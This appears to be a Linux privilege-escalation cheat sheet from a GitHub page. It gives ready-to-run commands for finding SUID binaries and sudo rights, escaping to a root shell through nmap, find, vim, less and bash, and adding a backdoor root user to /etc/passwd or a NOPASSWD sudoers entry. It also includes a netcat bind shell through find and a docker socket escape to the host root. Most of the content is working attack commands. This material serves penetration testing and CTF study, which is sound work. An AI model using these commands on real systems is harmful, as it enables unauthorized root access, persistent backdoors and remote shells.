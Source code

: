 # Linux Privilege Escalation


#### Check Sudo Access  
`sudo -l`

#### Check for writable "system" files or paths?
```
/etc/passwd
/etc/shadow
/etc/crontab
```
## Modifying /etc/password | /etc/shadow
#### Creating password hashes for /etc/passwd  or /etc/shadow
 
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
#### Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```
#### Adding user to suoders file
```
user     ALL=(ALL:ALL) NOPASSWD:ALL
``` 
## SUID Based Privilge Escalation  
#### Locating SUIDS
`find . -perm /4000 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

#### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

```
nmap --interactive  
nmap> !sh
```

find  
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find . -exec /bin/sh -p \; -quit`  
`find somefile -exec netcat -lvp 5555 -e /bin/sh \;`  
`find somefile -exec echo "lowprivuser ALL=(ALL) NOPASSWD:ALL" > /etc/sodoers \;`  
Vim  
```
vim /etc/shadow  
vim  
# Press ESC key  
:set shell=/bin/sh  
:shell
```

bash  
`bash -p`

less  
```
less /etc/passwd  
!/bin/sh
```
**Command reference for privilege escalation using SUIDS and SUDO**  
https://gtfobins.github.io/



## Processes running as root
```
ps aux | grep root
```
[pspy](https://github.com/DominicBreuker/pspy) may also be used to watch system processes interaction in realtime (including command lines).

## Kernel Exploits  
https://github.com/lucyoa/kernel-exploits

## Docker
If the docker socket is mounted from inside the dock container, you can eleveate to root.

The sock file is generally located in `/run/docker.sock`  or you can search `find / -name docker.sock 2>/dev/null`  

`docker run -it -v /:/host/ <available container images> chroot /host/ bash`  


